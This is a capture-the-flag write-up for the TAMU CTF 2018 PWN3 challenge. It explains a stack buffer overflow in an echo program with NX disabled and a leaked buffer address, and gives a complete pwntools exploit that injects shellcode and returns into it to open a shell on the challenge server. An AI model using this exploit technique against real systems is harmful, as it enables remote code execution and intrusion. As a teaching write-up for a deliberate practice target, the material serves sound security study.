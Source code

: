 ```yaml
---
author: zangobot
ctf: TAMU CTF 2018
challenge: PWN3
categories: [pwn]
tags: [ ctf, springchicken, challenge ]
layout: writeup
---
```

pwn3 is the natural evolution of [pwn2]({{site.base_url}}/writeups/TAMU2018/pwn2):

```
Welcome to the New Echo application 2.0!
Changelog:
- Less deprecated flag printing functions!
- New Random Number Generator!

Your random number 0xffc9967a!
Now what should I echo? springchicken_is_ok
springchicken_is_ok
```
Again, no canary and for the first time, NX disabled (this is nice).

BUT ASLR is enabled!
There is no `print_flag` function... man this is though.

Or maybe not? NX is disabled, so I can put a shellcraft into the stack and execute it.

But how can I reference it? Just look at the output of radare2.

The address printed at the beginning is the address of the input string.

**BINGO.**


```python
from pwn import *

OFFSET = 242 #found using ragg2

rem = remote('pwn.ctf.tamu.edu', 4323)

#read useless line
for i in range(0,5):
    rem.recvline()

#this is the address line
to_grep = rem.recvline()

#this is the address
address = '0x'+to_grep[::-1][2:10][::-1]
address = p32(int(address,16))

#voilà
shellcode = asm(shellcraft.i386.sh())
exploit = shellcode + 'A'*(OFFSET - len(shellcode)) + address

rem.sendline(exploit)
rem.interactive()


```

Flag captured <.<
